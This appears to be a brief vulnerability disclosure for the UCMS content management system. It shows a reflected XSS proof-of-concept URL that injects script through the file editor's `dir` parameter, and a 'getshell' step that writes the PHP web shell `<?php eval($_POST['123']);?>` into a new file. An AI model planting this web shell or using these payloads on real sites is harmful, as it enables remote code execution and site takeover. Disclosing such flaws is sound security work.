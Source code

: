 # XSS1
Access URL：http://www.a.com:85/ucms/index.php?do=sadmin_fileedit&dir=/ucms/user/%3Cscript%3Ealert(1)%3C/script%3E&file=mypost.php
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_xss_1-1.png)

-------------------------------------------
# GETSHELL
Create a 1.php file and submit
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-1.png)

Write poc：
`<?php eval($_POST['123']);?>`
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-2.png)

Getshell
![](https://github.com/AvaterXXX/CVEs/blob/master/images/ucms_getshell_1-3.png)
